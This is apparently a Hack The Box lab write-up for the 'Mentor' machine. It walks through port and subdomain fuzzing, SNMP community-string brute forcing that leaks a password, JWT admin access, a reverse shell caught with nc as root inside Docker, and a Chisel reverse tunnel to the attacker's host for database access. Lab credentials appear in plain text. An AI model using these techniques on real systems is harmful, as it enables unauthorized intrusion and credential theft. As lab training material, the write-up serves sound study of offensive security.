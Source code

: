 ## Scanning

We start with nmap port sca and givving as 2 open ports; 22 nd 80 and `udp` ports
```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sU --min-rate 10000 10.10.11.193 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-22 00:02 EST
Nmap scan report for mentorquotes.htb (10.10.11.193)
Host is up (0.086s latency).
Not shown: 993 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
161/udp   open   snmp
1214/udp  closed fasttrack
1993/udp  closed snmp-tcp-port
16862/udp closed unknown
20288/udp closed unknown
21948/udp closed unknown
49968/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
```
Changing the host nmae to `mentorquotes.htb`, giving as a webpage with some motivation quotes.
![](/Hack-The-Box/Mentor/img/1.png)


We used `feroxbuster` for hidden directory scan andgot nothing intresting, so we gone for sub-domain enumeration usung `wfuzz` and found a domain named `api`
```shell
┌──(kali㉿kali)-[~/workspace/HTB/machine/mentor]
└─$ wfuzz -u http://mentorquotes.htb/  -H "Host: FUZZ.mentorquotes.htb" -w /home/kali/workspace/tools/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --hc 302
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://mentorquotes.htb/
Total requests: 26584

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                           
=====================================================================

000000077:   404        0 L      2 W        22 Ch       "api"          
```
 the page shows nothing intresting 
 ![](/Hack-The-Box/Mentor/img/2.png)

so we did content discovery using `wfuzz` and found something intresting
```shell
┌──(kali㉿kali)-[~/workspace/HTB/machine/mentor]
└─$ wfuzz -u http://api.mentorquotes.htb/FUZZ  -w /home/kali/workspace/tools/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --hc 404
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://api.mentorquotes.htb/FUZZ
Total requests: 26584

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                           
=====================================================================

000000003:   307        0 L      0 W        0 Ch        "admin"                                                                                                                                           
000000076:   200        30 L     62 W       969 Ch      "docs"                                                                                                                                            
000000129:   307        0 L      0 W        0 Ch        "users"                                                                                                                                           
000001011:   307        0 L      0 W        0 Ch        "quotes"                                                                                                                                          
000003781:   403        9 L      28 W       285 Ch      "server-status"            
```

 ![](/Hack-The-BoxMentor/img/3.png)

since `snmp`  port is open we are brute forcing community string using `nmap`
we found two stirings named `public and internal` so using `snmpwalk ` we do some basic enumerations and found a intresting password from `internal` 
` STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"`

Let’s try to sign up for a new account using the email address `james@mentorquotes.htb`

 ![](/Hack-The-Box/Mentor/img/5.png)

The sign-up process did not work using the email address that we found. Let’s try using a different email address instead.

![](/Hack-The-Box/Mentor/img/6.png)
 
Now that we have created a new account, let’s try using the login function to access it

![](/Hack-The-Box/Mentor/img/7.png)

Upon successful login, the login function provided us with a JWT (JSON Web Token), which we can use to authenticate future requests to the website.
We are using this JWT to access `GET /users` along with  `Authorization` header

![](/Hack-The-Box/Mentor/img/8.png)

We received a response stating that only an administrator can access this resource.So from `snmpwalk` we found a password using that password we tried to login and get a valid JWT.

![](/Hack-The-Box/Mentor/img/9.png)

let’s try the function using the new JWT to see if we have the necessary permissions.

![](/Hack-The-Box/Mentor/img/10.png)
we were able to successfully run the ‘get users’ function and retrieve the list of users.

let’s check the contents of the ‘admin’ directory.
![](/Hack-The-Box/Mentor/img/11.png)

`/check` was not implemented yet and changing the method of `/backup` gives a response
![](/Hack-The-Box/Mentor/img/12.png)

since api is more verbose we add some wrong parametrs to find the orginal response 

![](/Hack-The-Box/Mentor/img/13.png)

now we try to create our revershell payload.
![](/Hack-The-Box/Mentor/img/14.png)

we get shell as root 
```shell
┌──(kali㉿kali)-[~/workspace/HTB/machine/mentor]
└─$ nc -nvlp 7878                  
listening on [any] 7878 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.11.193] 45147
/bin/sh: can't access tty; job control turned off
/app # whoami
root
/app # 
```
now we realize that we are indside a docker container.
After reviewing the local files, we found a file called ‘db.py’ located in the ‘/app/app’ directory. This file contains information about the PostgreSQL database.

```python
import os

from sqlalchemy import (Column, DateTime, Integer, String, Table, create_engine, MetaData)
from sqlalchemy.sql import func
from databases import Database

# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")

# SQLAlchemy for quotes
engine = create_engine(DATABASE_URL)
metadata = MetaData()
quotes = Table(
    "quotes",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("title", String(50)),
    Column("description", String(50)),
    Column("created_date", DateTime, default=func.now(), nullable=False)
)

# SQLAlchemy for users
engine = create_engine(DATABASE_URL)
metadata = MetaData()
users = Table(
    "users",
    metadata,
    Column("id", Integer, primary_key=True),
    Column("email", String(50)),
    Column("username", String(50)),
    Column("password", String(128) ,nullable=False)
)


# Databases query builder
database = Database(DATABASE_URL)

```
In order to access the database we need to tunnel to our machine and use the credentials.

## Tunneling

Use  Chisel to create a tunnel to our machine and use the credentials that we found in the ‘db.py’ file.

`our machine: ./chisel_1.7.7_linux_amd64  server --port 9595 --reverse`

`docker shell: ./chisel_1.7.7_linux_amd64 client -v 10.10.14.12:9595 R:5432:172.22.0.1:5432`

Now we are able to acesss the database
`psql -h 127.0.0.1 -p 5432 -d mentorquotes_db -U postgres`

![](/Hack-The-Box/Mentor/img/15.png)

we were able to carck service_acc hash password `123meunomeeivani`

while running `linepeas` we found `snmpd.conf` file.
![](/Hack-The-Box/Mentor/img/16.png)

there is our password
![](/Hack-The-Box/Mentor/img/17.png)



![](/Hack-The-Box/Mentor/img/18.png)



![](/Hack-The-Box/Mentor/img/19.png)
